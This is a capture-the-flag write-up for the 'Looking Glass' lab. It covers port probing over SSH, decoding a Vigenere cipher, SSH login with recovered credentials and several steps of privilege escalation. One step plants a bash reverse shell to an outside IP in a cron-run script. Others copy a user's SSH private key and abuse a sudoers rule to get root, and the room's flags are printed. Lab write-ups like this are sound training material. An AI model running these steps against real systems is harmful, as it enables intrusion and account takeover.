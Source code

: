 # LookingGlass
## IP 10.10.161.246
# TASK 1 - Looking glass

+ Get the user flag. `thm{65d3710e9d75d5f346d2bac669119a23}`
+ Get the root flag. `thm{bc2337b6f97d057b01da718ced6ead3f}`


+ Gathering information menggunakan `nmap -sC -sV 10.10.161.246 -oN nmap_scan`
    - Port Open `9000-13783` SSH Dropbear
    - Problem with mac ssh `-o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa StrictHostKeyChecking=no`
    - `ssh -p 13783 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa -o StrictHostKeyChecking=no 10.10.161.246`

    - Trying to brute the PORT
    9000    => Lower
    10000   => Lower
    11000   => Lower
    12000   => Lower
    12250   => Lower
    12255   => 
    ```bash
    You've found the real service.
    Solve the challenge to get access to the box
    Jabberwocky
    .... `secret.txt`
    ```
    12260   => Higher
    12275   => Higher
    12300   => Higher
    12400   => Higher
    12500   => Higher
    13000   => Higher
    13783   => Higher

    decode the Vigenere secret with key `THEALPHABETCIPHER`
    ```bash
    'Twas brillig, and the slithy toves
    Did gyre and gimble in the wabe;
    All mimsy were the borogoves,
    And the mome raths outgrabe.

    'Beware the Jabberwock, my son!
    The jaws that bite, the claws that catch!
    Beware the Jubjub bird, and shun
    The frumious Bandersnatch!'

    He took his vorpal sword in hand:
    Long time the manxome foe he sought--
    So rested he by the Tumtum tree,
    And stood awhile in thought.

    And as in uffish thought he stood,
    The Jabberwock, with eyes of flame,
    Came whiffling through the tulgey wood,
    And burbled as it came!

    One, two! One, two! And through and through
    The vorpal blade went snicker-snack!
    He left it dead, and with its head
    He went galumphing back.

    'And hast thou slain the Jabberwock?
    Come to my arms, my beamish boy!
    O frabjous day! Callooh! Callay!'
    He chortled in his joy.

    'Twas brillig, and the slithy toves
    Did gyre and gimble in the wabe;
    All mimsy were the borogoves,
    And the mome raths outgrabe.

    Your secret is bewareTheJabberwock

    Enter Secret:
    jabberwock:SieveAdditionAwkwardSawing
    Connection to 10.10.161.246 closed.
    ```

+ Got Credential `jabberwock:SieveAdditionAwkwardSawing`
    - `ssh jabberwock@10.10.161.246`
    ```bash 
    Last login: Fri Jul  3 03:05:33 2020 from 192.168.170.1
    jabberwock@looking-glass:~$ cat user.txt  | rev
    thm{65d3710e9d75d5f346d2bac669119a23}
    ```

+ Escalation Priviledge
    - Enumeration User
    ```
    jabberwock@looking-glass:~$ ls -la /home
    total 32
    drwxr-xr-x  8 root         root         4096 Jul  3  2020 .
    drwxr-xr-x 24 root         root         4096 Jul  2  2020 ..
    drwx--x--x  6 alice        alice        4096 Jul  3  2020 alice
    drwx------  2 humptydumpty humptydumpty 4096 Jul  3  2020 humptydumpty
    drwxrwxrwx  5 jabberwock   jabberwock   4096 Jul  3  2020 jabberwock
    drwx------  5 tryhackme    tryhackme    4096 Jul  3  2020 tryhackme
    drwx------  3 tweedledee   tweedledee   4096 Jul  3  2020 tweedledee
    drwx------  2 tweedledum   tweedledum   4096 Jul  3  2020 tweedledum


    jabberwock@looking-glass:~$ sudo -l
    Matching Defaults entries for jabberwock on looking-glass:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User jabberwock may run the following commands on looking-glass:
        (root) NOPASSWD: /sbin/reboot
    ```

    
    `@reboot tweedledum bash /home/jabberwock/twasBrillig.sh`

    abuse the file twasBrillig.sh to contains reverse shell
    ```bash
    jabberwock@looking-glass:~$ vim /home/jabberwock/twasBrillig.sh

    #!/bin/bash
    bash -i >& /dev/tcp/10.4.37.160/1234 0>&1
    wall $(cat /home/jabberwock/poem.txt)

    jabberwock@looking-glass:~$ reboot
    ```
    
    - Listening from reboot to activate reverse shell
    ```bash
    hengkisirait: LookingGlass $ nc -l 1234
    bash: cannot set terminal process group (875): Inappropriate ioctl for device
    bash: no job control in this shell
    tweedledum@looking-glass:~$
    ```

    - Unhex the humtydumpty.txt got `the password is zyxwvutsrqponmlk`
    - /usr/bin/script -qc /bin/bash /dev/null

    ```bash
    tweedledee@looking-glass:/dev/shm$ su humptydumpty
    Password:
    humptydumpty@looking-glass:/dev/shm$

    cat /home/alice/.ssh/id_rsa 
    ssh -i alice_id_rsa alice@10.10.161.246

    alice@looking-glass:/etc/sudoers.d$ cat alice
    alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
    sudo -h ssalg-gnikool

    root@looking-glass:/root# cat root.txt
    }f3dae6dec817ad10b750d79f6b7332cb{mht
    ```